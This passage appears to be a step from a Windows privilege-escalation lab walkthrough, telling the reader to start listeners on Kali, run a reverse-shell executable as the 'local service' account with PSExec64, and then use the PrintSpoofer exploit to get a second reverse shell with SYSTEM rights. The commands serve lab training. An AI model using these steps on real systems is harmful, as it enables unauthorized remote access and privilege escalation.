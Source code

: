 Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:  

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

Start another listener on Kali.

Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

```
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

Answer the questions below

Read and follow along with the above.
